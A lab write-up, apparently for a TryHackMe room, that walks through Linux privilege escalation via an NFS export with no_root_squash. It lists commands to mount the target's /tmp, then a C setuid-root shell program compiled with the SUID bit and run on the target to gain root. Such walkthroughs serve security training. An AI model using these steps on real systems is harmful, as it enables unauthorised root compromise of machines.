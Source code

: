 ### ***# PRIVILEGE ESCALATION: NFS***
1. Open two tabs in your terminal. 
2. In one of the tabs, SSH into Karen's machine
   - ```ssh karen@<target machine ip>```
3. Once in, you're explore which files are a part of the Network File Sharing. 
   - ```cat /etc/exports```
4. You should see that there are 3 files that are accesible remotely. Now, as THM says, the critical part is finding one that has the "no_root_squash" option present. This allows us to create an executable with a SUID bit on our system and run it on another. You can go with any of the 3 but I'm going to go with the tmp file. 
   - Move into the tmp file with: 
     - ```cd /tmp```
5. We confirm that the ```tmp``` file is mountable. 
  - A mountable file is one that can be attached to the file system and made available to users. 
6. Go to your other tab, where you're still in your machine, and move into the tmp directory. 
   - ```cd /tmp```
7. We're going to create another directory in there to keep things tidy and to ensure that we are able to successful mount to the target machine: 
  - mkdir tmp
8. Now, we are going to mount our directory that we just created to the machine that we're trying to gain access on. Essentially, we're making the data on our machine accessible on the other machine. 
  - ```mount -o rw <target machine ip>:/tmp /tmp/tmp```
    - In order to mount our directory to the tmp directory on the target's machine with read/write privileges, we use: ```mount -o rw```
    - The directory that we want to mount to is:"```/tmp```"
    - The directory that we want to mount is our: "```/tmp/tmp```
9.  Now, let's create a simple executable that will run /bin/bash on the target system. 
   - This can be done in any of the text editors. I used Sublime. When you do this make sure to save it in the tmp folder that we just created. 
     - "Other Locations">"Computer"
   - Script to obtain root permissions: 
     - ```bash
        int main()  
        {
          setgid(0);  
          setuid(0);  
          system("/bin/bash");  
        }
      - setgid: Sets the effective group ID to 0 (root).
      - setuid: Sets the effective user ID to 0 (root). 
      - system("/bin/bash") executes. 
- When you save, remember to add the extension .c
       - The ".c" extension 
10.  Compile the preceding file into an executable:   
- ```gcc <file.c> -o <file> -w```  
  - Add the SUID bit:  
    - ```chmod u+s <file>```
11.  Switch back to the tab where you SSH'd into Karen's machine. 
- Make sure you're in the tmp folder. Use ls, and you should see the file you created on your machine. 
  - Execute that file: 
    - ```./<file>```
  - You should now have root access. 
